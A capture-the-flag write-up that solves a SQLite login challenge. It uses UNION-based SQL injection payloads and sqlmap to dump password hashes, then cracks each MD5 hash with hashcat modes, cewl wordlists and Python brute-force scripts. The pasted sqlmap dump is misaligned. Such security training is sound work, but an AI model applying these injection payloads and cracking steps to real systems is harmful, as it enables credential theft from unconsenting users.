# login_page
## Challenge Description
I came across this login page running sqlite and was told there was a flag behind it. Can you find it?
## Inspiration
In creating this challenge, I wanted to create something that's close to how real life attackers are able to get the passwords of large amounts of users. 
While this challenge is obviously much simpler than what was needed in the attacks carried out against large like LinkedIn and Yahoo, I still think it is instructive in learning how to use things like SQL injection and hashcat as well as the importance of sanitizing input when making any type of web application where you're dealing with sensitive information.
Additionally, a hands-on exercise in how easy it is to crack some passwords can serve as a good reminder to always use strong passwords. 
Relevant YouTube links: 


## Backend
The backend is just a simple Python script that uses Flask for the web app and sqlite3 for processing information from the database. I know that the website is very barebones and doesn't look very good; however, I don't have much experience with web design and this is the first time that I have used these Python libraries to make a web app. Any suggestions/feedback on how I made the web app and any additions that could have been made would be greatly appreciated.
## Investigating the Website
Upon opening the website, we are greeted with a login page.

Trying some default credentials, we get an error notifying us that we have invalid credentials.

From the main page, we also have a way to search for users.

Typing in a single 'a', we notice we get 3 matches for potential users:

Note that only alice starts with an a, so we guess that the server is instead returning any usernames that have the character 'a' in them. 
## SQL Injection
Taking a hint from the challenge description, we assume that the search feature is searching a database using SQLite behind the scenes. Since our search output is a table with two columns, we can guess that in the above search of just the character 'a', the server executed an SQL command like the following:
```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%a%"
```
However, if the search field is not being properly sanitized, we may be able to get SQL injection and leak out information about to the database. To test this, we can provide a single '%' as the input to run the following command: 
```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%%%"
```
This should just return all the users that are in the database. Testing this on the website, the output is as we expected.


Now, to get it so we can execute arbitrary SQL commands, we can first close of the final string with a double quote and comment out the rest of the line as follows:
```
input = ";--
```
```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%";--%"
```

Now, we can insert any SQL code between the original code and the end of the line using a UNION as long as the code outputs a table with 2 columns. Here is an example payload:
```
input: " UNION SELECT 1,2;--
```
```sql
SELECT [username_col_name],[bio_column_name] FROM [database_name] WHERE [username_col_name] LIKE "%" UNION SELECT 1,2;--%"
```

Trying this on the website, we see that we get an extra row in the output and so we now have successful SQL injection.


## Leaking out Database Information
Now that we can inject our own SQL code, we can next enumerate the table schema in order to see what other information we can get from the database with the folliwng command
```sql
SELECT 1,sql FROM sqlite_master WHERE type='table'
```
Note that in this command, we are selecting two columns due to how we are doing the SQL injection.
Running this on the website, we get the following:
```
input: " UNION SELECT 1,sql FROM sqlite_master WHERE type='table';--
```

We see that we have a table users with the following format:
```sql
CREATE TABLE users ( username text primary key not null, password_hash text not null, hint text not null, bio text not null)
```
The `password_hash` and `hint` fields look interesting, so let's also grab those 
```
input: " UNION SELECT username, hint FROM users;--
       " UNION SELECT username, password_hash FROM users;--
```


Here's the information that we got
| User  | Password Hash                    | Hint                                                                           | Notes                                                                |
|-------|----------------------------------|--------------------------------------------------------------------------------|----------------------------------------------------------------------|
| noob  | 8553127fedf5daacc26f3b677b58a856 |                                                                                | No hint provided                                                     |
| alice | 530bd2d24bff2d77276c4117dc1fc719 | My phone number (format: 000-000-0000)                                         |                                                                      |
| bob   | 4106716ae604fba94f1c05318f87e063 | My favorite 12 digit number (md5 hashed for extra security) [starts with a 10] | "starts with a 10" added during CTF due to too large of search space |
| carl  | 661ded81b6b99758643f19517a468331 | My favorite Greek God + My least favorite US state (no spaces)                 |                                                                      |
| dania | 58970d579d25f7288599fcd709b3ded3 | الحيوان المفضل لدي (6 أحرف عربية فقط)                                          | Translates to "My Favorite Animal (6 Arabic Characters Only)"        |

**NOTE**: We can also get the password hints by entering the corresponding username with an incorrect password.

## Automating SQL Injection with SQLMap
Alternatively, instead of manually crafting a payload, we can use sqlmap - a tool that automatically does SQL injection. We can use it with the following command:
```
sqlmap -u https://login.chal.uiuc.tf/search --dump-all --method=POST --data="request=a" --level=3
```
Running this command gives us the following output
```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) and risk (1) values? [Y/n] y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
...
POST parameter 'request' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
...
[11:39:04] [INFO] sqlmap will dump entries of all tables from all databases now
[11:39:04] [INFO] fetching tables for database: 'SQLite_masterdb'
[11:39:04] [INFO] fetching number of tables for database 'SQLite_masterdb'
[11:39:04] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:39:04] [INFO] retrieved: 1
[11:39:05] [INFO] retrieved: users
[11:39:05] [INFO] retrieved: CREATE TABLE users (  username text primary key not null,  password_hash text not null,  hint text not null,  bio text not null)
[11:39:16] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[11:39:16] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[11:39:16] [INFO] retrieved: 5
```
Next, we dump out all the contents of the users table
```
sqlmap -u http://login.chal.uiuc.tf/search --dump-all -T users --method=POST --data="request=a" --level=3
```
Running this command dumps the table and we get all its contents:
```
+---------------------+--------------------------------------------------------------------------------+----------+----------------------------------+
| bio                 | hint                                                                           | username | password_hash                    |
+---------------------+--------------------------------------------------------------------------------+----------+----------------------------------+
| this is noob's bio  | <blank>                                                                        | alice    | 8553127fedf5daacc26f3b677b58a856 |
| this is alice's bio | My phone number 'format: 000-000-0000'                                         | bob      | 530bd2d24bff2d77276c4117dc1fc719 |
| this is bob's bio   | My favorite 12 digit number 'md5 hashed for extra security) [starts with a 10] | carl     | 4106716ae604fba94f1c05318f87e063 |
| this is carl's bio  |  My favorite Greek God + My least favorite US state 'no spaces)                | dania    | 661ded81b6b99758643f19517a468331 |
| this is dania's bio | ''''''' '''''' ''' '6 '''' ''''' ''''              | noob     | 58970d579d25f7288599fcd709b3ded3 |
+---------------------+--------------------------------------------------------------------------------+----------+----------------------------------+

```
Note however that dania's row is formatted strangely due to the non-ASCII text - this can be fixed by getting the password hints from the actual login page.
## Password Cracking
Because all the hashes have length 32 and due to the hint provided, we can assume that the hash being used is MD5. To crack these, we can use [hashcat](https://hashcat.net/hashcat/)
If you have a rig with a powerful GPU, you can just use hashcat locally. However, if you are like me and have a slower computer, you can instead use a cloud computing service like Google Colab in order to get faster speeds. See [this post](https://github.com/mxrch/penglab) for more information on how to set up a Google Colab environment with hashcat.

Running some benchmarks, we can see how fast hashcat runs:
```
CUDA API (CUDA 11.0)
====================
* Device #1: Tesla K80, 11373/11441 MB, 13MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.210) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: Tesla K80, skipped

Benchmark relevant options:
===========================
* --optimized-kernel-enable

Hashmode: 0 - MD5

Speed.#1.........:  3930.8 MH/s (55.27ms) @ Accel:64 Loops:256 Thr:1024 Vec:2
```
From the output above, we can see that hashcat can crack 3.9 **billion** hashes per second, which is way faster than anything I can do on my local machine.
## User 1: noob
This is a very easy hash to crack - just Googling the hash or using a website like (Crackstation)[https://crackstation.net/], we are able to get the plaintext of our hash

Alternatively, we can use hashcat along with [rockyou.txt](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) - a common wordlist used in password cracking by running the following command:
```
hashcat -m 0 -a 0 8553127fedf5daacc26f3b677b58a856 rockyou.txt
```
Breaking down this command:
 - `-m 0`: Specifies MD5 hash
 - `-a 0`: Dictionary attack mode
```
8553127fedf5daacc26f3b677b58a856:SoccerMom2007
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 8553127fedf5daacc26f3b677b58a856
Time.Started.....: Sat Jul 25 12:34:37 2020 (2 secs)
Time.Estimated...: Sat Jul 25 12:34:39 2020 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6062.9 kH/s (3.92ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 11075584/14344384 (77.21%)
Rejected.........: 0/11075584 (0.00%)
Restore.Point....: 10223616/14344384 (71.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: alisonodea -> IloveSanMahua17
Hardware.Mon.#1..: N/A
```

As you can see, this takes less than 2 seconds to run - and we get the unhashed password. 
## User 2: alice
From the password hint, we determine that the unhashed password is any combination of 10 digits (e.g. 123-456-7890) - so there are 10 trillion possible combinations. We can use the Mask Attack in hashcat in order to brute force all these combinations as follows:
```
hashcat -m 0 -a 3 "530bd2d24bff2d77276c4117dc1fc719" ?d?d?d-?d?d?d-?d?d?d?d
```
Breaking down the command
 - `-a 3`: Mask attack mode
 - `?d?d?d-?d?d?d-?d?d?d?d` is the mask we are using; `?d` represents any digit character so this mask represents the format we are given in the hint (see here for more information on masks in hashcat)[https://hashcat.net/wiki/doku.php?id=mask_attack]
 
Running this command, we get the following output:
```
530bd2d24bff2d77276c4117dc1fc719:704-186-9744
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 530bd2d24bff2d77276c4117dc1fc719
Time.Started.....: Sat Jul 25 12:45:08 2020 (4 secs)
Time.Estimated...: Sat Jul 25 12:45:12 2020 (0 secs)
Guess.Mask.......: ?d?d?d-?d?d?d-?d?d?d?d [12]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1760.9 MH/s (6.66ms) @ Accel:8 Loops:125 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5937152000/10000000000 (59.37%)
Rejected.........: 0/5937152000 (0.00%)
Restore.Point....: 5857280/10000000 (58.57%)
Restore.Sub.#1...: Salt:0 Amplifier:625-750 Iteration:0-125
Candidates.#1....: 446-166-4035 -> 629-385-9572
Hardware.Mon.#1..: N/
```

## User 3: bob
Bob's password hint is `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10] `
Thus, we can assume that we are looking for a 12 digit number such that MD5(MD5(12 digit number)) = 4106716ae604fba94f1c05318f87e063
We can use a similar approach to the one we used to get Alice's password, but instead, we can specify that we want to use double md5 to hashcat by using the following command:

```
hashcat -m 2600 -a 3 "4106716ae604fba94f1c05318f87e063" 10?d?d?d?d?d?d?d?d?d?d
```
where
 - `-m 2600` specifies the hashtype `md5(md5($pass))` (see here for info on hash types in hashcat)[https://hashcat.net/wiki/doku.php?id=example_hashes]
 - `10?d?d?d?d?d?d?d?d?d?d` specifies a mask with '10' followed by 10 digits
 
Running this, we get:
```
4106716ae604fba94f1c05318f87e063:102420484096
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5(md5($pass))
Hash.Target......: 4106716ae604fba94f1c05318f87e063
Time.Started.....: Sat Jul 25 12:52:55 2020 (15 secs)
Time.Estimated...: Sat Jul 25 12:53:10 2020 (0 secs)
Guess.Mask.......: 10?d?d?d?d?d?d?d?d?d?d [12]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   607.9 MH/s (12.24ms) @ Accel:8 Loops:100 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8764620800/10000000000 (87.65%)
Rejected.........: 0/8764620800 (0.00%)
Restore.Point....: 87539712/100000000 (87.54%)
Restore.Sub.#1...: Salt:0 Amplifier:0-100 Iteration:0-100
Candidates.#1....: 100154642463 -> 106445681596
Hardware.Mon.#1..: N/A
```

However, note that in order to get the actual password for the website, we need to hash this number once (as the password hash is the result of applying MD5 twice)

```sh
$ echo -n '102420484096' | md5sum
5809be03c7cc31cdb12237d0bd718898  -
```
Thus, we have that Bob's password is `5809be03c7cc31cdb12237d0bd718898`.
## User 4: carl
Carl's password hint is `My favorite Greek God + My least favorite US state (no spaces) `
To crack this, we can use a similar approach to how we cracked noob's password by using a dictionary. Our plan of attack is the following
 1. Get wordlists of Greek gods and US states
 2. Combine these lists.
 3. Use hashcat with this final wordlist.
We'll show two different approaches
##### Approach 1 (The Noob Password Cracker)
We first get a wordlist of Greek gods and US states from online and save these as gods.txt and states.txt respectively. Then, since there are only 124*49 = 6076 possible combinations that the password can be, we can just write a simple Python script to crack the password
```python
from hashlib import md5

gods = [i.strip() for i in open("gods.txt","r").readlines()]
states = [i.strip() for i in open("states.txt","r").readlines()]

for god in gods:
	for state in states:
		password = god+state
		if md5(password.encode()).hexdigest() == '661ded81b6b99758643f19517a468331': print(password)
```
This quickly outputs our plaintext password as `DionysusDelaware`.
##### Approach 2 (The Chad Password Cracker)
Firstly, instead of spending the unnecessary extra minutes to create wordlists ourselves, why not use some command line magic to create one for us?
We'll be using (cewl)[https://github.com/digininja/CeWL], a command-line utility that generates wordlists from a URL in order to generate a wordlist for us.
```sh
cewl -d 0 -w gods.txt https://simple.wikipedia.org/wiki/List_of_figures_in_Greek_mythology
```
 - `-d 0`: specifies searching depth to 0
 - `-w greek`: specifies output file

However, some of the lines in this file contain non-English characters:
```sh
$ tail -n 15 gods.txt 
Finnish
Carateres
mitos
elinica
lista
старогрчки
Macedonian
Divinità
della
greca
Italian
interlanguage
wmf
General
disclaimer
```

Let's use some bash-fu to clean this file up a bit:
```sh
cat gods.txt | grep "[A-Z][a-z]*" -o | grep -x '.\{2,\}' > greek_gods
```
 - `cat gods.txt`: prints gods.txt to stdout
 - `grep "[A-Z][a-z]*" -o`: pick out only the words that start with a capital letter
 - `grep -x '.\{2,\}'`: filters out lines with 0 or 1 characters
 
We also get a list of the 50 US states and save those as a file named `us_states`
Now, instead of using a Python script to combine these two files, we'll use the Combinator attack mode in hashcat with the following command:
```
hashcat -m 0 -a 1 "661ded81b6b99758643f19517a468331" greek_gods us_states
```
 - `-a 1`: Specifies the Combinator attack mode
Running this command, we nearly instantly get the cracked hash
```
661ded81b6b99758643f19517a468331:DionysusDelaware
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 661ded81b6b99758643f19517a468331
Time.Started.....: Sat Jul 25 13:50:15 2020 (0 secs)
Time.Estimated...: Sat Jul 25 13:50:15 2020 (0 secs)
Guess.Base.......: File (greek_gods), Left Side
Guess.Mod........: File (us_states), Right Side
Speed.#1.........: 67123.6 kH/s (0.53ms) @ Accel:16 Loops:50 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 82300/82300 (100.00%)
Rejected.........: 0/82300 (0.00%)
Restore.Point....: 0/1646 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-50 Iteration:0-50
Candidates.#1....: GreekAlabama -> GeneralWyoming
Hardware.Mon.#1..: N/A
```
### User 5: dania
This was perhaps the hardest hash to crack and the one that most people had trouble with. The password hint indicates that the plaintext password only consists of 6 Arabic characters. 
##### Attempt 1: Brute Force
Since we know that the password is in Arabic, each character is 2 bytes. Therefore, if we bruteforce all possible 12 byte strings, that gives us a search space of 256^12 = 7.9*10^28. Even at a hash speed of 10 billion hashes / second, this would take millions of years. We clearly need a better approach.
##### Attempt 2: (Smarter) Brute Force
Looking at a Unicode chart like the one [here](https://www.utf8-chartable.de/unicode-utf8-table.pl), we notice a pattern: any Arabic character can be represented by two bytes b1b2 where
```
b1 = [d8,d9]
b2 = [80 - bf]
```
Because of this, we can use the Mask mode in hashcat with custom characters to crack this password as follows:

```
hashcat --hex-charset -a 3 -1 d8d9 -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf ?1?2?1?2?1?2?1?2?1?2?1?2
```

 - `--hex-charset`: specifies that the given charsets are in hex
 - `-a 3`: Mask attack mode
 - `-1 d8d9dadb`: defines a charset consisting of "\d8\d9\da\db"
 - `-2 8081...`: defines a 2nd charset
 - `?1?2?1?2?1?2?1?2?1?2?1?2`: 12 bytes where every 2nd byte is from the 2nd charset and the others from the 1st charset
 
Running this command, we get the following:
```
58970d579d25f7288599fcd709b3ded3:طاووسة          
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 58970d579d25f7288599fcd709b3ded3
Time.Started.....: Sat Jul 25 14:39:26 2020 (1 min, 45 secs)
Time.Estimated...: Sat Jul 25 14:41:11 2020 (0 secs)
Guess.Mask.......: ?1?2?1?2?1?2?1?2?1?2?1?2 [12]
Guess.Charset....: -1 d8d9, -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1971.1 MH/s (13.54ms) @ Accel:16 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 206026309632/4398046511104 (4.68%)
Rejected.........: 0/206026309632 (0.00%)
Restore.Point....: 12566528/268435456 (4.68%)
Restore.Sub.#1...: Salt:0 Amplifier:512-640 Iteration:0-128
Candidates.#1....: اهامٿن -> ٿاٿٿوة
Hardware.Mon.#1..: N/A
```

##### Attempt 3: Using Word Lists
I intentionally chose to make this password in Arabic as words in Arabic change their form depending on the rules of Arabic grammar through the use of added suffixes. Therefore, it is hard to just use a wordlist as any standard wordlist is likely to ignore these kinds of changes. Nonetheless, it is still possible to use a wordlist to crack this password - it just takes more knowledge of Arabic and thus, I leave it just for completeness and as an interesting look at how a password cracker working in a different language may approach things.

From (the Wikipedia page on the Arabic language)[https://en.wikipedia.org/wiki/Arabic]:
*The feminine singular is often marked by ـَة /-at/, which is pronounced as /-ah/ before a pause. Plural is indicated either through endings (the sound plural) or internal modification (the broken plural). Definite nouns include all proper nouns, all nouns in "construct state" and all nouns which are prefixed by the definite article اَلْـ /al-/. Indefinite singular nouns (other than those that end in long ā) add a final /-n/ to the case-marking vowels, giving /-un/, /-an/ or /-in/ (which is also referred to as nunation or tanwīn).*

We'll construct 3 different wordlists: Arabic prefixes, a list of Arabic animal names, and Arabic suffixes.

###### Arabic animal names
Looking at Wikipedia's [list of animal names article](https://en.wikipedia.org/wiki/List_of_animal_names) and then going to the [Arabic version](https://ar.wikipedia.org/wiki/%D9%82%D8%A7%D8%A6%D9%85%D8%A9_%D8%A3%D8%B3%D9%85%D8%A7%D8%A1_%D8%A7%D9%84%D8%AD%D9%8A%D9%88%D8%A7%D9%86%D8%A7%D8%AA_%D9%88%D8%A5%D9%86%D8%A7%D8%AB%D9%87%D8%A7_%D9%88%D8%B5%D8%BA%D8%A7%D8%B1%D9%87%D8%A7), we get an article with a lot of Arabic animal names. Using cewl on this URL, we get a list of Arabic animal names.
```
cewl -d 0 -w animal_names https://ar.wikipedia.org/wiki/%D9%82%D8%A7%D8%A6%D9%85%D8%A9_%D8%A3%D8%B3%D9%85%D8%A7%D8%A1_%D8%A7%D9%84%D8%AD%D9%8A%D9%88%D8%A7%D9%86%D8%A7%D8%AA_%D9%88%D8%A5%D9%86%D8%A7%D8%AB%D9%87%D8%A7_%D9%88%D8%B5%D8%BA%D8%A7%D8%B1%D9%87%D8%A7
```
###### Arabic prefixes
Googling a list of Arabic prefixes gives us [this list](https://www.researchgate.net/profile/Belal_Abuata/publication/255907855/figure/tbl1/AS:392609173393411@1470616729549/Arabic-Prefixes-and-Their-Meanings-Prefix-Meaning-Example.png), so we take these and put them in a file called `prefixes`.
###### Arabic suffixes
Googling a list of Arabic suffixes gives us [this list](https://en.wiktionary.org/wiki/Category:Arabic_suffixes), so we take these and put them in a file called `suffixes`.
####### Putting it all together
We write a quick python script to combine these 3 files, similar to how we did for Carl's password. 
(Note: we can't use the Combinator attack mode in hashcat as that only accepts 2 files to combine. However, there do exist [tools that do this](https://hashcat.net/wiki/doku.php?id=hashcat_utils#combinator3))
```python
from hashlib import md5

prefixes = [i.strip() for i in open("prefixes","r").readlines()]
animals = [i.strip() for i in open("animal_names","r").readlines()]
suffixes = [i.strip() for i in open("suffixes","r").readlines()]
out = open("wordlist","w")
for prefix in prefixes:
	for animal in animals:
		for suffix in suffixes:
			password = prefix+animal+suffix
			if md5(password.encode()).hexdigest() == "58970d579d25f7288599fcd709b3ded3": print(password)
```
This nearly instantly prints out the correct plaintext password: `طاووسة`
